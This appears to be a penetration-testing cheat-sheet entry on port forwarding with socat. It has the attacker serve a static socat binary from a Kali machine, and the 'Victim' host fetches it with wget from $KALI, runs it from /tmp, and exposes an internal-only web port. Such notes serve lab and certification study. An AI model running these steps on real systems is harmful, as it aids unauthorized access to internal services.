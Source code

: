 # Tunneling and Port Forwarding

## Socat

If there is a website running on port 6666 that can only be seen on the Victims side locally, we can forward it so we can see it on Kali. Below will allows us to see the website on our Kali instance on port 7777

**Kali**

```
wget https://github.com/aledbf/socat-static-binary/releases/download/v0.0.1/socat-linux-amd64
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp
wget http://$KALI:81/socat-linux-amd64
chmod +x socat-linux-amd64 
./socat-linux-amd64  tcp-listen:7777,reuseaddr,fork tcp:localhost:6666
```
